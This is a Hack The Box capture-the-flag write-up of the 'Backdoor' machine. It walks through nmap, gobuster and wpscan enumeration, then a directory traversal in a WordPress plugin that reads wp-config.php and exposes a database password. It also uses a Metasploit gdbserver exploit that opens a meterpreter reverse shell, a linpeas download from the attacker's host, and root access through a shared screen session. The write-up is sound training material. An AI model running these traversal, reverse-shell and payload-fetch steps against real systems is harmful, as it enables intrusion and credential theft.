

# Backdoor HTB | 0xWerz | 22/04/22

### The official [box page](https://app.hackthebox.com/machines/Backdoor) on HTB 

<p align="center">
   
</p>

### Walkthrough

#### Port Scanning | **IP: 10.10.11.125**

lets **echo** the ip to the `/etc/hosts` file with `backdoor.htb` name.
``` bash
sudo bash -c "echo '10.10.11.125        backdoor.htb' >> /etc/hosts"
```

fire up a ports scan only (im using **naabu** tool), this will save a lot of time for us.

``` bash 
naabu -host backdoor.htb -p 20-2000     

                  __
  ___  ___  ___ _/ /  __ __
 / _ \/ _ \/ _ \/ _ \/ // /
/_//_/\_,_/\_,_/_.__/\_,_/ v2.0.6

		projectdiscovery.io

Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.
[INF] Running CONNECT scan with non root privileges
[INF] Found 3 ports on host backdoor.htb (10.10.11.125)
backdoor.htb:22
backdoor.htb:80
backdoor.htb:1337
```

## Open Ports
|Ports|Service|Takeaways|
|------|-----|-----|
|22|SSH|OpenSSH 8.2p1|
|80|HTTP|Apache httpd 2.4.41|
|1337|waste?|none|

now lets check the ports with nmap.

``` bash
nmap backdoor.htb -sV -sC -p 22,80,1337 -T4 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-06 17:19 CET
Nmap scan report for backdoor.htb (10.10.11.125)
Host is up (0.060s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.01 seconds
```
so its running a wordpress webpage thats interesting.
### Web enumeration 
lets run a gobuster scan for that webpage in the same time lets do a [wpscan](https://github.com/wpscanteam/wpscan)

``` bash
gobuster dir -u http://backdoor.htb -w ~/opt/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt    ✔  05:26:19 PM  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://backdoor.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/werz/opt/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/06 17:26:24 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://backdoor.htb/wp-content/]
/wp-includes          (Status: 301) [Size: 318] [--> http://backdoor.htb/wp-includes/]
/wp-admin             (Status: 301) [Size: 315] [--> http://backdoor.htb/wp-admin/]   
```

``` bash 
wpscan --url http://backdoor.htb/                                                                                   ✔  05:37:43 PM  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://backdoor.htb/ [10.10.11.125]
[+] Started: Fri May  6 17:37:58 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://backdoor.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://backdoor.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://backdoor.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://backdoor.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://backdoor.htb/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://backdoor.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://backdoor.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://backdoor.htb/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://backdoor.htb/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://backdoor.htb/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <===================================================================================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri May  6 17:38:07 2022
[+] Requests Done: 139
[+] Cached Requests: 37
[+] Data Sent: 35.218 KB
[+] Data Received: 19.746 KB
[+] Memory used: 231.035 MB
[+] Elapsed time: 00:00:08
```
lets take a manual look for the wordpress plugins used in `http://backdoor.htb/wp-content/plugins/` so yeah there is a plugin called **ebook-download**. we've could catch it with wpscan scan on the aggressive mode btw.

I did some google researches seems there is a **Directory Traversal** (LFI) vuln. [exploit-db](https://www.exploit-db.com/exploits/39575)

lets try send a request to that file 

``` bash 
wget 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php' -O wp-config.php
--2022-05-06 18:09:07--  http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
Resolving backdoor.htb (backdoor.htb)... 10.10.11.125
Connecting to backdoor.htb (backdoor.htb)|10.10.11.125|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3866 (3.8K) [application/octet-stream]
Saving to: ‘wp-config.php’

wp-config.php                                100%[============================================================================================>]   3.78K  --.-KB/s    in 0.002s  

2022-05-06 18:09:07 (2.11 MB/s) - ‘wp-config.php’ saved [3866/3866]
```
yay! it works. lets see if there is a important information in.
``` bash 
grep PASS wp-config.php
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```
I tried login with an admin user and the password we've find, I tried it with SSH too. did not help

well, so lets try dumping the processes running inside the machine through the **/proc** folder. im gonna make a simple bash script to make curl requests for 1000 pid for now.

``` bash 
for i in $(seq 0 1000); do curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/${i}/cmdline --output - | cut -d'/' -f 8- | sed 's/<script.*//g' > $i; done
```
There is a lot of files lets filter some, what if we filtered for that port we've noticed **1337** why not.
``` bash 
cat * | grep -a 1337
proc/831/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```
well so there is a gdbserver running on that port if im not wrong. I assume there is some exploits in **Metasploit**, lets give it a try!
``` bash 
msfconsole
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v6.1.35-dev                          ]
+ -- --=[ 2209 exploits - 1171 auxiliary - 395 post       ]
+ -- --=[ 617 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Metasploit can be configured at startup, see 
msfconsole --help to learn more

msf6 > search gdb

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
   1  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation


Interact with a module by name or index. For example info 1, use 1 or use exploit/linux/local/ptrace_sudo_token_priv_esc

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > show options

Module options (exploit/multi/gdb/gdb_server_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to a process.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usin
                                        g-Metasploit
   RPORT                      yes       The target port (TCP)


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  110.175.1.101    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   x86 (32-bit)


msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   x86 (32-bit)
   1   x86_64 (64-bit)


msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.206:9091 
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (3020772 bytes) to 10.10.11.125
ls
[*] Meterpreter session 1 opened (10.10.14.206:9091 -> 10.10.11.125:56924 ) at 2022-05-06 21:09:28 +0100

meterpreter > cat user.txt
```
yay! so we are in and we've got the user flag

## Privilege Escalation | ROOT

lets try listing the processes running on the machine.

im gonna give [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20220504) a try.

``` bash 
sudo python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.125 - - [06/May/2022 21:32:44] "GET /linpeas.sh HTTP/1.1" 200 -
```

``` bash 
wget http://10.10.14.206/linpeas.sh
wget http://10.10.14.206/linpeas.sh
--2022-05-06 20:32:45--  http://10.10.14.206/linpeas.sh
Connecting to 10.10.14.206:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776423 (758K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.23K  92.4KB/s    in 8.9s    

2022-05-06 20:32:54 (85.6 KB/s) - ‘linpeas.sh’ saved [776423/776423]
```
lets run it now. after giving it the execute permissions
``` bash 
chmod +x linpeas.sh
```
after a while the following caught my attention.

``` bash 
root         820  0.0  0.1   8352  3400 ?        S    05:20   0:00  _ /usr/sbin/CRON -f
root         834  0.0  0.0   2608  1796 ?        Ss   05:20   0:15      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
root      140953  0.0  0.0   5476   592 ?        S    20:36   0:00          _ sleep 1
daemon[0m       849  0.0  0.1   3792  2232 ?        Ss   05:20   0:00 /usr/sbin/atd -f
root         898  0.0  0.9 194048 18360 ?        Ss   05:20   0:02 /usr/sbin/apache2 -k start
www-data  126911  1.7  1.6 195360 33216 ?        S    19:26   1:15  _ /usr/sbin/apache2 -k start
www-data  126942  1.7  1.7 197896 34672 ?        S    19:26   1:13  _ /usr/sbin/apache2 -k start
www-data  126959  2.1  1.6 197508 33948 ?        S    19:26   1:31  _ /usr/sbin/apache2 -k start
www-data  126980  1.9  1.7 197532 34648 ?        S    19:26   1:22  _ /usr/sbin/apache2 -k start
www-data  126992  1.7  1.7 197908 34420 ?        S    19:26   1:12  _ /usr/sbin/apache2 -k start
www-data  127212  2.0  1.7 197884 35196 ?        S    19:28   1:26  _ /usr/sbin/apache2 -k start
www-data  127231  1.9  1.7 197896 34624 ?        S    19:28   1:22  _ /usr/sbin/apache2 -k start
www-data  135526  1.8  1.7 197664 34440 ?        R    20:18   0:20  _ /usr/sbin/apache2 -k start
www-data  135686  1.8  1.7 197760 34300 ?        S    20:19   0:19  _ /usr/sbin/apache2 -k start
www-data  136372  2.2  1.6 197516 33060 ?        S    20:23   0:17  _ /usr/sbin/apache2 -k start
root         908  0.0  0.0   5828  1748 tty1     Ss+  05:20   0:00 /sbin/agetty -o -p -- u --noclear tty1 linux
root         915  0.0  0.3 232716  6832 ?        Ssl  05:20   0:00 /usr/lib/policykit-1/polkitd --no-debug
user         917  0.0  0.4  18388  9528 ?        Ss   05:20   0:00 /lib/systemd/systemd --user
user         928  0.0  0.1 103336  3372 ?        S    05:20   0:00  _ (sd-pam)
root         926  0.0  0.1   7084  2544 ?        Ss   05:20   0:00 SCREEN -dmS root
root         929  0.0  0.2   8272  5088 pts/0    Ss+  05:20   0:00  _ -/bin/bash
mysql        936  0.6 20.4 1760400 410828 ?      Ssl  05:20   5:53 /usr/sbin/mysqld
root       82046  0.0  0.4 249540  9688 ?        Ssl  14:31   0:00 /usr/lib/upower/upowerd
user      102309  0.0  0.0   2608   540 ?        S    16:46   0:00 /bin/sh
user      102445  0.0  0.4  15960  9544 ?        S    16:47   0:00  _ python3 -c import pty;pty.spawn('/bin/bash')
user      102448  0.0  0.2   8364  4728 pts/1    Ss   16:47   0:00      _ /bin/bash
root      102663  0.0  0.1   7048  2956 pts/1    S+   16:48   0:00          _ screen -x root root
```
to confirm i ran ps command:
``` bash
user@Backdoor:~$ ps aux | grep screen
ps aux | grep screen
root         834  0.0  0.0   2608  1796 ?        Ss   05:20   0:15 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
root      102663  0.0  0.1   7048  2956 pts/1    S+   16:48   0:00 screen -x root root
user      154185  0.0  0.0   6632   732 pts/3    S+   20:41   0:00 grep --color=auto screen
```
There is a cronjob running with the name of **screen** as root 

lets check if the screen session is running 
``` bash
user@Backdoor:~$ screen -ls root/
screen -ls root/
There is a suitable screen on:
	926.root	(05/06/22 05:20:35)	(Multi, attached)
1 Socket in /run/screen/S-root.
```

so, yeah its running with mutliuser support lets try resume to the root session if possible.

``` bash
user@Backdoor:~$ screen -r root/
```

We are in! as root.

```
root@Backdoor:~# ls
root.txt
root@Backdoor:~# cat root.txt
```
and we've got the flag!

>why is that work because there is a misconfiguration at the **.screenrc** file that contains the multiuser on, and a acladd line for the user we was in **user**.  
